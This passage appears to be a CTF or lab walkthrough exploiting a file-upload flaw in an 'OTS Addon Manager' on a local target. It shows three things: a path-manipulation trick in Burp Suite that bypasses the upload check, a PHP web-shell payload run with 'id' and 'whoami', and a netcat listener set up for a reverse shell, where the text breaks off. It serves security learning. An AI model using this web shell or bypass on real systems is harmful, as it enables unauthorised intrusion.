 ![[002 Attachment/Pasted image 20250722213754.png]]

Clicking `[DL]` next to **OTS Addon Manager** allows us to download the corresponding PHP source file.

![[002 Attachment/Pasted image 20250722215902.png]]

We observe that as long as `$_SERVER['REQUEST_URI']` contains `/addon-upload.php`, the upload logic will be triggered.
![[002 Attachment/Pasted image 20250722215953.png]]

Back on the `menu.php` page, we use the browser’s **Inspect** tool to remove the `disabled` attribute from the upload form:

![[002 Attachment/Pasted image 20250722220244.png]]

After removing it, the **Submit Query** button becomes clickable:

![[002 Attachment/Pasted image 20250722220407.png]]


Now it’s time to test whether we can upload a malicious payload.

Create a simple PHP payload file and attempt to upload it. Meanwhile, intercept the request in **Burp Suite** and modify the upload path in the request from `/addon-upload.php` to `/addon-download.php&/addon-upload.php`:
```php
<?php
system($_GET['pwn']);
?>
```

![[002 Attachment/Pasted image 20250722221708.png]]


After modifying the request, forward it in Burp Suite:  

![[002 Attachment/Pasted image 20250722221859.png]]

Then visit `localhost:60080/addons/shell.php?pwn=id` in the browser, and we can confirm that the command executed successfully:  
![[002 Attachment/Pasted image 20250722221932.png]]

Let’s further test with the `whoami` command:  
![[002 Attachment/Pasted image 20250722222046.png]]



**Next, we aim to obtain a stable interactive shell.**
First, set up a local listener using `netcat`:
```
nc -lvnp 4444
```

![[002 Attachment/Pasted image 20250722222413.png]]
